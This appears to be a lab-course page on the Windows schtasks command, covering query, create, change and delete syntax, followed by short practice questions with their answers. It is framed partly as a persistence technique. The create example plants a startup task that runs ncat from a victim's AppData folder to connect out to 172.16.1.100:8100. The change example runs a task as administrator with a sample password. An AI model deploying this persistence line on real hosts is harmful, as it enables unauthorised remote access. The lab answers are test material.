 ### Using `schtasks` for Task Management

**Scheduled tasks** are a powerful feature for automating actions in Windows. From an administrative perspective, this includes both managing routine tasks and setting up persistence mechanisms. Here’s a detailed guide on how to use the `schtasks` command for these purposes:

#### Display Scheduled Tasks

To view existing scheduled tasks, use the following syntax:

- **Query Syntax**:
    - `schtasks /query /fo <format> /v /nh /s <host> /u <user> /p <password>`
        
    - **`/fo <format>`**: Specifies the format of the output. Options include `TABLE`, `LIST`, and `CSV`.
        
    - **`/v`**: Provides detailed information about the tasks.
        
    - **`/nh`**: Omits column headers in the output.
        
    - **`/s <host>`**: Connects to a remote host. Default is `localhost`.
        
    - **`/u <user>`**: Runs the command under the specified user account.
        
    - **`/p <password>`**: Provides the password for the user account.
        
    - **Example**:
        
        - `schtasks /query /fo list /v`

#### Create a New Scheduled Task

To create a new scheduled task, use:

- **Create Syntax**:
    - `schtasks /create /sc <schedule> /tn <task_name> /tr <task_run> /s <host> /u <user> /p <password> /mo <modifier> /rl <level> /z`
        
    - **`/sc <schedule>`**: Sets the schedule type (e.g., `ONSTART`, `DAILY`, `WEEKLY`).
        
    - **`/tn <task_name>`**: Names the task.
        
    - **`/tr <task_run>`**: Defines the command or executable to run.
        
    - **`/s <host>`**: Specifies the host.
        
    - **`/u <user>`**: Specifies the user account under which to run the task.
        
    - **`/p <password>`**: Provides the password for the user account.
        
    - **`/mo <modifier>`**: Sets modifiers for the schedule (e.g., every 5 hours).
        
    - **`/rl <level>`**: Specifies the privilege level (e.g., `LIMITED`, `HIGHEST`).
        
    - **`/z`**: Deletes the task after completion.
        
    - **Example**:
        
        - `schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"`

#### Change the Properties of a Scheduled Task

To modify an existing task:

- **Change Syntax**:
    - `schtasks /change /tn <task_name> /tr <new_task_run> /ENABLE /DISABLE /ru <user> /rp <password>`
        
    - **`/tn <task_name>`**: Specifies the task to change.
        
    - **`/tr <new_task_run>`**: Modifies the action of the task.
        
    - **`/ENABLE`**: Enables the task.
        
    - **`/DISABLE`**: Disables the task.
        
    - **`/ru <user>`**: Sets the user account to run the task.
        
    - **`/rp <password>`**: Provides the password for the user account.
        
    - **Example**:
        
        - `schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"`

#### Delete a Scheduled Task

To remove a scheduled task:

- **Delete Syntax**:
    - `schtasks /delete /tn <task_name> /s <host> /u <user> /p <password> /f`
        
    - **`/tn <task_name>`**: Specifies the task to delete.
        
    - **`/s <host>`**: Specifies the host.
        
    - **`/u <user>`**: Specifies the user account.
        
    - **`/p <password>`**: Provides the password.
        
    - **`/f`**: Forces deletion without confirmation.
        
    - **Example**:
        
        - `schtasks /delete /tn "My Secret Task" /f`

### Practice Tasks

1. **True or False**: Can a scheduled task be set to run when a user logs onto a host?
2. **Practical Exercise**: Access the target host and practice creating, modifying, and deleting scheduled tasks. Type `COMPLETE` when done.

### Questions:
- True or False: A scheduled task can be set to run when a user logs onto a host?
	- True
- Access the target host and take some time to practice working with Scheduled Tasks. Type COMPLETE as the answer when you are ready to move on.
	- Complete